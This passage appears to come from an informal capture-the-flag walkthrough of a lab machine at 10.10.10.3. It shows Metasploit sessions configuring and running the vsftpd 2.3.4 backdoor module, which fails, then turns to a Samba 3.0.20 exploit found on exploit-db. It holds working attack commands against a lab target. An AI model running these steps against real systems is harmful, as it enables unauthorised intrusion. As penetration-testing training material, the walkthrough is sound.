 ```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rport 4444
rport => 4444
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set lhosts 10.10.14.64
[!] Unknown datastore option: lhosts. Did you mean RHOSTS?
lhosts => 10.10.14.64
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.10.14.64      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    4444             yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.10.10.3
rhosts => 10.10.10.3
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set chost 10.10.14.64
chost => 10.10.14.64
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set cport 4444
cport => 4444
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rport 21
rport => 21
```
now we run it
we run it but it doesnt really work 
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 10.10.10.3:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.3:21 - USER: 331 Please specify the password.
exit
^C[*] Exploit completed, but no session was created.
```
we could delve deeper into it and try to make it work but lets try another port number and see what issues it has
We search for OpenSSH 4.7p1 Debian 8ubuntu1 exploit on google but didnt find much going on in way of exploitdb links or github links
there is one older exploit but my gut reaction is to explore other methods for now
tldr This isnt the exploit so let us gloss over it for now and wont use method 2 or 3 to find an exploit
we finally arrive at our third and final port 445 samba
this has to be it
we search "samba 3.0.20 exploit" into google and find   a exploitdb link https://www.exploit-db.com/exploits/16320 
after reading thru it we realize it's referencing a Metasploit module. we have metasploit built into our machine so let's jump into that
we spin up msfconsole and search for this exploit 
```
msf6 > search Samba 3.0.20
```